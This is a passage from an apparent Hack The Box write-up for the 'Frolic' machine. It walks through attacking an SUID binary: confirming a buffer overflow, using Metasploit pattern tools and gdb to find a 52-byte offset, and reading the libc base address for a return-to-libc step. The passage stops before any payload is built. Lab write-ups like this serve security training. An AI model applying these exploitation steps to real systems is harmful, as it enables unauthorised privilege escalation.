 I can confirm a vulnerable buffer overflow by sending in some large input.

```bash
www-data@frolic:/home/ayush/.binary$ ./rop AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA 
Segmentation fault (core dumped)
```

I got a segfault, so there's a buffer overflow here. Because it has the SUID bit set, I am sure this is how to escalate my privileges.

I begin by identifying the overflow offset - the amount of input at which the buffer begins to overflow. I use `pattern_create` and `pattern_offset` on Kali to identify this.

I base64-encode the `rop` file, copy the base64 result, and decode it on my local machine so I can develop an exploit against this file.

```bash
gdp ./rop
```

```bash
artis3n@kali-pop:~/shares/htb/frolic$ msf-pattern_create -l 100
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
```

Using this pattern as the input to `rop`, `gdb` tells me what was in the buffer at the time I hit the segfault.

```bash
gdb-peda$ r Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
```

```bash
Program received signal SIGSEGV, Segmentation fault.
0x62413762 in ?? ()
```

I take `0x62413762` and pass it to `pattern_offset` to identify how many bytes long I need to pad my payload to overflow the buffer.

```bash
artis3n@kali-pop:~$ msf-pattern_offset -q 0x62413762
[*] Exact match at offset 52
```

`52` it is.

Now returning to the target machine, I need to get the memory address of the `libc` library used by the file.

```bash
www-data@frolic:/home/ayush/.binary$ ldd rop
ldd rop
        linux-gate.so.1 =>  (0xb7fda000)
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7e19000)
        /lib/ld-linux.so.2 (0xb7fdb000)
```


[brainfuck]: https://en.wikipedia.org/wiki/Brainfuck
[cyberchef]: https://gchq.github.io/CyberChef/
[fcrackzip]: https://github.com/hyc/fcrackzip
[gchq]: https://www.gchq.gov.uk/
[hackthebox]: https://www.hackthebox.eu
[little-endian]: https://chortle.ccsu.edu/AssemblyTutorial/Chapter-15/ass15_3.html
[playsms]: https://playsms.org/
[ook]: https://esolangs.org/wiki/Ook!
[ret2libc]: https://en.wikipedia.org/wiki/Return-to-libc_attack
[rop]: https://ctf101.org/binary-exploitation/return-oriented-programming/
[backup dirlist]: /assets/img/htb/frolic/backup-dir.png
[backup pass]: /assets/img/htb/frolic/backup-pass.png
[backup user]: /assets/img/htb/frolic/backup-user.png
[cyberchef results]: /assets/img/htb/frolic/third-cipher-to-brainfuck.png
[login source]: /assets/img/htb/frolic/9999-login-source.png
[login source creds]: /assets/img/htb/frolic/9999-login-creds-source.png
[phpinfo]: /assets/img/htb/frolic/phpinfo-test-page.png
[second cipher zip]: /assets/img/htb/frolic/second-cipher-decode.png